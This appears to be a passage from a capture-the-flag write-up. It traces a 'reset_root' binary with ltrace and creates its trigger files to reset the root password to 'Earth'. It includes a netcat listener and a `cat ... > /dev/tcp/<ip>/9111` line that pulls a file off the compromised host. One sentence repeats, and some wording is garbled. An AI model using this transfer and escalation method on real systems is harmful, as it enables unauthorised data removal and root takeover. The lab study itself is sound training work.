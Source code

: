 ### Analyze `reset_root` file
I encountered the following error when trying to execute this file:

<p align="center">
  <img src="images/error.png">
</p>

So I decided to take a better look at the file, so I copied it to my device. To do this in one terminal I called `nc -nlvp 9111 > reset_root`, while on the acquired system I called `cat /usr/bin/reset_root > /dev/tcp/192.168.100.136/9111`.

I added the right to run for the owner of the `reset_root` file before proceeding with the test.

After checking the contents of the file, it turned out that it is not human-readable format.  For this reason, I used the `ltrace` tool, which made my job much easier and showed the content I could read.

It contains the following important elements:
- `access(path, mode)` - a system function that checks whether a file can be accessed.
- `0` - mode `F_OK`, meaning: does the file exist.
- `= -1` - means that the file does not exist (error, typically `ENOENT` - No such file or directory).

```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $ltrace ./reset_root 
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
) = 38
access("/dev/shm/kHgTFI5G", 0) = -1
access("/dev/shm/Zw7bV9U5", 0) = -1
access("/tmp/kcM0Wewe", 0)   = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
) = 44
+++ exited (status 0) +++
```

The easiest way to solve this problem was to manually create the required pistachio files in the appropriate locations. The easiest way to solve this problem was to manually create the required pistachio files in the appropriate locations. With this method it was possible to run the `reset_root` file and execute it successfully. The password was reset to the default value, which is `Earth`.

### Get root password
<p align="center">
  <img src="images/created_files.png">
</p>